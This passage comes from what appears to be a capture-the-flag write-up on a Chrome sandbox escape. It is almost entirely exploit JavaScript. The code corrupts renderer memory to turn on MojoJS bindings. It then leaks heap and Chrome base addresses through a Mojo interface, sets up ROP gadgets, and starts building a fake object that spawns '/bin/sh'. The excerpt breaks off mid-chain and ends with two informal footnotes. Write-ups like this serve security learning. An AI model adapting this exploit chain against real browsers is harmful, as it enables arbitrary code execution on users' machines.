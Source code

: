 ```html
  print(`g_frame_map: ${hex(g_frame_map)}`);

  // FrameMap is a std::map<blink::WebFrame*, RenderFrameImpl*>, which is
  // implemented as a red-black tree in libc++. We'll assume that there is
  // only one element in the map. The first 8 bytes in the std::map point to
  // the (only) node.
  // The layout of a node is as follows:
  // 0:  p64(left)
  // 8:  p64(right)
  // 16: p64(parent)
  // 24: p64(is_black) (yes this is a boolean but it takes 64 bits)
  // 32: key (in our case blink::WebFrame*)
  // 40: value (in our case RenderFrameImpl*) <-- what we want
  let g_frame_map_node = read64(g_frame_map);
  print(`g_frame_map_node: ${hex(g_frame_map_node)}`);
  let render_frame = read64(g_frame_map_node + 40n);
  print(`render_frame: ${hex(render_frame)}`);

  // This is a bool in RenderFrameImpl that controls whether JavaScript has
  // access to the MojoJS bindings.
  let enable_mojo_js_bindings_addr = render_frame + enable_mojo_js_bindings_offset;
  write32(enable_mojo_js_bindings_addr, read32(enable_mojo_js_bindings_addr) | 1);
  // We will have mojo after reloading the page, so do that
  window.location.reload();
}

async function sbx() {
  function newClient() {
    let iface = new blink.mojom.SandboxPtr();
    Mojo.bindInterface(blink.mojom.Sandbox.name, mojo.makeRequest(iface).handle);

    return iface;
  }

  let fake = newClient();
  const heap_leak = (await fake.getHeapAddress()).addr;

  const text_leak = (await fake.getTextAddress()).addr;

  print(`Text leak: ${hex(text_leak)}`);
  const chrome_base = BigInt(text_leak) - 0x627fc20n;
  print(`Chrome base: ${hex(chrome_base)}`);

  const syscall = chrome_base + 0x0d8decafn; // syscall;
  const move_stack = chrome_base + 0x08ff9a59n; // add rsp, 0x28; ret;
  const pop_rdi = chrome_base + 0x0d8e655bn; // pop rdi; ret
  const pop_rsi = chrome_base + 0x0d8cdf7cn; // pop rsi; ret;
  const pop_rdx = chrome_base + 0x0d86e112n; // pop rdx; ret;
  const pop_rax = chrome_base + 0x0d8e64f4n; // pop rax; ret;

  let boxed_mem = BigInt(heap_leak) + 0x18n;
  let fake_object = new BigUint64Array(0x800 / 8);

  let prog_addr = boxed_mem - 7n;
  let prog_arg = boxed_mem - 7n + 15n * 8n;
  let prog_arg2 = prog_arg + 8n;

  fake_object.fill(0x4141414141414141n);
  fake_object[0] = 0x68732f6e69622fn; // /bin/sh
  fake_object[1] = prog_addr;
  fake_object[2] = prog_arg;
  fake_object[3] = prog_arg2;
  fake_object[4] = 0n;
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.